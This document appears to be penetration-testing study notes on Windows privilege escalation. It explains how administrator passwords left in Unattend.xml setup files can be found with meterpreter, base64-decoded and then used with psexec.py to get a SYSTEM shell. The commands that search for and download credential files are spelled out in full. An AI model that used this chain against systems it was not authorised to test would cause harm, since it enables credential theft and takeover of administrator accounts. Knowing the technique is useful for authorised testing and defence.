 # Privilege Escalation: Passwords In Win Config Files

## Contents
- [Intro]()
  - [Windows Configuration Files]()
  - [Unattended Windows Setup]()
- [Practical: Find, Decode, Use]()
  - [Search & Download]()
  - [cat, grep, decode]()
  - [Exploit]()

## Intro

### Windows Configuration Files
- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on various systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with a Windows target legitimately.
  - The sysadmin needs to go to each individual machine and delete the configuration files.
  - If not, the administrator password could be exposed if it's included in the config file.
 
### Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system confirmation information:
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Practical: Find, Decode, Use

### Search & Download
> The assumption here is that you have a compromised Windows target, but the account you appropriated is unpriviledged. 

- You could just poke around the target machine like a normal user (which is NOT a privileged account AT ALL) to find the config file.
- Or you could search... For example, using the search module in meterpreter:
```
> search
  # by itself this will give you usage syntax

> search -f Unattend.xml
> search -f Autounattend.xml
> cd [/path/to/the/file.xml]
> download unattend.xml
```

### cat, grep, decode
```
cat unattend.xml | grep Password
```
- This should provide you with a result similar to:
```
<AutoLogon>
  <Password>
    <Value>QWRtaW5AMTIz</Value>
    <PlainText>false</PlainText>
  </Password>
  <Enabled>true</Enabled>
  <Username>administrator</Username>
</AutoLogon>
```
- If the PlainText field is "false," then you have a Base64 encoded password you need to decode.
- Use the `base64` tool to (`-d`) decode it: 
```
base64 -d password.txt > plaintextpwd.txt
# or
base64 -d password.txt
```

### Exploit
- Test out the password you just decoded with the psexec.py Python script:
```
psexec.py Administrator@[target ip]
```
- It'll prompt for password. Enter it. You should get a command shell session (`whoami: nt authority\system`)


